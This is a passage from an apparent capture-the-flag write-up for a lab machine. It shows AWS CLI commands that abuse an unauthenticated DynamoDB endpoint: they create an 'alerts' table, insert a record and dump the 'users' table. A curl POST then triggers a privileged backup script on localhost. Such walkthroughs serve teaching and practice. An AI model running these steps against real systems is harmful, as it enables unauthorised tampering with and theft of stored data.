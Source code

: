 \> Content-Type: application/x-www-form-urlencoded
\> 
\* upload completely sent off: 17 out of 17 bytes
\* Mark bundle as not supporting multiuse
\* HTTP 1.0, assume close after body
\< HTTP/1.0 500 Internal Server Error
\< Date: Tue, 15 Dec 2020 16:10:46 GMT
\< Server: Apache/2.4.41 (Ubuntu)
\< Content-Length: 0
\< Connection: close
\< Content-Type: text/html; charset=UTF-8
\< 
\* Closing connection 0
{% endhighlight %}

I noticed this: 

> HTTP/1.0 500 Internal Server Error

As expected, the script doesn't work properly because it's looking for a table that doesn't exist. 

Remember that we have a lot of privileges on that `AWS S3` instance so, again, I read the documentation and it turns out that we can create new tables and records with a few commands. 

So, first I tried to create a new table called `alerts` via the cli tool and it worked !

{% highlight sh %}
python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
{% endhighlight %}

Then, I tried to create a record in the table with the title `Ransomware` and the data `ThanksForReading`.

{% highlight sh %}
python2.7 /usr/bin/aws dynamodb put-item 		--table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "ThanksForReading"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
{% endhighlight %}

Again, it worked !

The only problem here is that the table is automaticaly removed after a few seconds so, I need to create a script to:

1. Create a table called `alerts`
2. Create a record 
3. Execute curl to trigger the scirpt inside the `backup-app`.

Here is my script:
{% highlight sh %}
python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
python2.7 /usr/bin/aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "teststringalue"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
python2.7 /usr/bin/aws dynamodb list-tables --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request
python2.7 /usr/bin/aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --output text --query "Items[*]"
python2.7 /usr/bin/aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --output text --query "Items[*]"
curl http://127.0.0.1:8000/index.php/ -X POST -d 'action=get_alerts' -v
{% endhighlight %}
